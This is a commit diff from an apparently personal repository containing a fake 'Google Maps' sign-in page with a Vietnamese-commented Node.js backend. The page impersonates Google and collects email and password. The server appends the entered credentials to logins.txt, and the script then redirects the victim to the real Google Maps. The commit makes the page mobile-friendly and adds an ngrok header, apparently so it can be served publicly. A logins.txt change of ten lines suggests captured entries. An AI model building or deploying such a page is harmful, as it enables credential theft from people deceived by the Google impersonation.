

Before and after one commit to TruongVu1705/Learn, a website: page public/ggmapv2.html in a window 390 px wide. Shown: the part 294-844 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme; files that its build step writes are made by us from their sources.

Commit message:
thu4-commit

```diff
--- a/public/ggmapv2.html
+++ b/public/ggmapv2.html
@@ -2,92 +2,11 @@
 <html lang="en">
 <head>
   <meta charset="UTF-8" />
+  <meta name="viewport" content="width=device-width, initial-scale=1.0" /> <!-- Quan trọng -->
   <title>Google Maps</title>
   <link href="https://fonts.googleapis.com/css2?family=Roboto&display=swap" rel="stylesheet" />
   <link rel="stylesheet" href="style.css" />
   <link rel="icon" href="https://upload.wikimedia.org/wikipedia/commons/thumb/a/aa/Google_Maps_icon_%282020%29.svg/1200px-Google_Maps_icon_%282020%29.svg.png" type="image/png">
-  <style>
-    body {
-      margin: 0;
-      font-family: 'Roboto', sans-serif;
-      background-color: #202124;
-      display: flex;
-      justify-content: center;
-      align-items: center;
-      height: 100vh;
-      color: #e8eaed;
-    }
-
-    .login-container {
-      background-color: #2d2f31;
-      padding: 40px;
-      border-radius: 12px;
-      width: 400px;
-      box-shadow: 0 2px 10px rgba(0,0,0,0.4);
-    }
-
-    .logo {
-      width: 40px;
-      margin-bottom: 20px;
-    }
-
-    h2 {
-      margin: 0 0 10px;
-      font-size: 24px;
-    }
-
-    p {
-      font-size: 14px;
-      margin-bottom: 20px;
-      color: #bdc1c6;
-    }
-
-    input {
-      width: 100%;
-      padding: 12px;
-      margin: 10px 0;
-      border: 1px solid #5f6368;
-      border-radius: 4px;
-      background: transparent;
-      color: #e8eaed;
-    }
-
-    input:focus {
-      border-color: #8ab4f8;
-      outline: none;
-    }
-
-    .btn {
-      width: 100%;
-      padding: 12px;
-      background-color: #8ab4f8;
-      border: none;
-      border-radius: 20px;
-      font-weight: bold;
-      cursor: pointer;
-      margin-top: 20px;
-    }
-
-    .btn:hover {
-      background-color: #669df6;
-    }
-
-    .footer-links {
-      margin-top: 20px;
-      font-size: 13px;
-      display: flex;
-      justify-content: space-between;
-    }
-
-    a {
-      color: #8ab4f8;
-      text-decoration: none;
-    }
-
-    a:hover {
-      text-decoration: underline;
-    }
-  </style>
 </head>
 <body>
   <div class="login-container">
--- a/public/script.js
+++ b/public/script.js
@@ -5,10 +5,12 @@ document.getElementById("loginForm").addEventListener("submit", async function (
   const password = e.target[1].value;
 
   try {
-    const res = await fetch("http://localhost:3000/login", {
+    // Dùng đường dẫn tương đối thay vì localhost
+    const res = await fetch("/login", {
       method: "POST",
       headers: {
         "Content-Type": "application/json",
+        "ngrok-skip-browser-warning": "true"
       },
       body: JSON.stringify({ email, password }),
     });
@@ -16,7 +18,6 @@ document.getElementById("loginForm").addEventListener("submit", async function (
     const data = await res.json();
 
     if (res.ok) {
-      // Nếu login thành công -> chuyển tới Google Maps
       window.location.href = "https://www.google.com/maps";
     } else {
       alert(data.message || "Đăng nhập thất bại");
--- /dev/null
+++ b/public/style.css
@@ -0,0 +1,134 @@
+/* Reset cơ bản */
+* {
+  box-sizing: border-box;
+  margin: 0;
+  padding: 0;
+}
+
+body {
+  margin: 0;
+  font-family: 'Roboto', sans-serif;
+  background-color: #202124;
+  display: flex;
+  justify-content: center;
+  align-items: center;
+  min-height: 100vh;
+  color: #e8eaed;
+}
+
+/* Form chính */
+.login-container {
+  background-color: #2d2f31;
+  padding: 30px;
+  border-radius: 12px;
+  width: 100%;
+  max-width: 400px; /* ✅ Giới hạn chiều rộng tối đa */
+  box-shadow: 0 2px 10px rgba(0,0,0,0.4);
+}
+
+.logo {
+  width: 40px;
+  margin-bottom: 20px;
+}
+
+h2 {
+  margin: 0 0 10px;
+  font-size: 22px;
+}
+
+p {
+  font-size: 14px;
+  margin-bottom: 20px;
+  color: #bdc1c6;
+}
+
+input {
+  width: 100%;
+  padding: 12px;
+  margin: 10px 0;
+  border: 1px solid #5f6368;
+  border-radius: 4px;
+  background: transparent;
+  color: #e8eaed;
+  font-size: 16px; /* ✅ Tránh Safari tự zoom */
+}
+
+input:focus {
+  border-color: #8ab4f8;
+  outline: none;
+}
+
+.btn {
+  width: 100%;
+  padding: 12px;
+  background-color: #8ab4f8;
+  border: none;
+  border-radius: 20px;
+  font-weight: bold;
+  cursor: pointer;
+  margin-top: 20px;
+  font-size: 16px;
+}
+
+.btn:hover {
+  background-color: #669df6;
+}
+
+.footer-links {
+  margin-top: 20px;
+  font-size: 13px;
+  display: flex;
+  justify-content: space-between;
+}
+
+a {
+  color: #8ab4f8;
+  text-decoration: none;
+}
+
+a:hover {
+  text-decoration: underline;
+}
+
+/* 📱 Mobile (nhỏ hơn 600px) */
+@media (max-width: 600px) {
+  .login-container {
+    padding: 20px;
+    border-radius: 8px;
+    max-width: 90%; /* ✅ Chiếm gần hết màn hình */
+  }
+
+  h2 {
+    font-size: 20px;
+  }
+
+  p {
+    font-size: 12px;
+  }
+
+  .footer-links {
+    flex-direction: column;
+    align-items: center;
+    gap: 10px;
+  }
+}
+
+/* 📟 Tablet / iPad (từ 600px đến 1024px) */
+@media (min-width: 601px) and (max-width: 1024px) {
+  .login-container {
+    max-width: 500px; /* ✅ rộng hơn mobile nhưng nhỏ hơn desktop */
+    padding: 35px;
+  }
+
+  h2 {
+    font-size: 24px;
+  }
+
+  p {
+    font-size: 14px;
+  }
+
+  input, .btn {
+    font-size: 17px;
+  }
+}
--- a/server.js
+++ b/server.js
@@ -22,10 +22,9 @@ app.post('/login', (req, res) => {
 
   fs.appendFile(logPath, logData, (err) => {
     if (err) {
-      console.error("Lỗi khi ghi file:", err);
+      console.error("Lỗi", err);
       return res.status(500).json({ success: false, message: "Không thể ghi file" });
     }
-    console.log("Đã lưu vào logins.txt");
     res.json({ success: true, message: "Đăng nhập thành công" });
   });
 });
```
Also changed, not shown: ggmap.html (deleted, +0 -26 lines), logins.txt (+10 -0 lines), 1 other file.
